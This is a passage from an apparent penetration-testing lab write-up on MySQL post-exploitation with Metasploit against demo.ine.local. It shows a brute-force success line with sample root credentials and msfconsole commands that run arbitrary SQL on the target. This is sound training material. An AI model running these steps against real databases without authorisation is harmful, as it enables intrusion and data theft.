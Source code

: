 Sample success output (example):

```
[*] 10.10.10.10:3306 - LOGIN SUCCESS: demo.ine.local - root:P@ssw0rd
[+] Credentials saved to the database
```

If Metasploit finds credentials, it will often save them to its DB for reuse by other modules.

---

## Post-auth / Post-exploitation (Metasploit + native)

Once you have valid credentials, the goal is to collect useful data and identify escalation vectors. Below are safe, practical actions you can perform with Metasploit and with native MySQL clients. Always follow rules of engagement and avoid destructive actions unless explicitly allowed.

### A. Metasploit: run SQL or dump schema/data

First, locate the right auxiliary/admin modules in msfconsole:

```text
# Search available MySQL auxiliary/admin modules
msf6 > search type:auxiliary name:mysql

# Typical module names to look for:
# auxiliary/admin/mysql/mysql_sql  -> run arbitrary SQL
# auxiliary/admin/mysql/mysql_schemadump -> dump schema (if present)
# Always run 'info <module>' to confirm options and behavior
```

Example: run arbitrary SQL using a module (replace module name if different after your search):

```text
msf6 > use auxiliary/admin/mysql/mysql_sql
msf6 auxiliary(mysql_sql) > show options
# Set target and credentials
msf6 auxiliary(mysql_sql) > set RHOSTS demo.ine.local
msf6 auxiliary(mysql_sql) > set MYSQLUSER root
msf6 auxiliary(mysql_sql) > set MYSQLPASS 'P@ssw0rd'
# Example: simple SQL query to list databases
msf6 auxiliary(mysql_sql) > set SQL 'SHOW DATABASES;'
msf6 auxiliary(mysql_sql) > run
```

Sample (example) output you might see:

```
[+] Connected to demo.ine.local:3306 as root
[*] Executing SQL: SHOW DATABASES;
[*] Results:
information_schema
mysql
performance_schema
demo_db
```
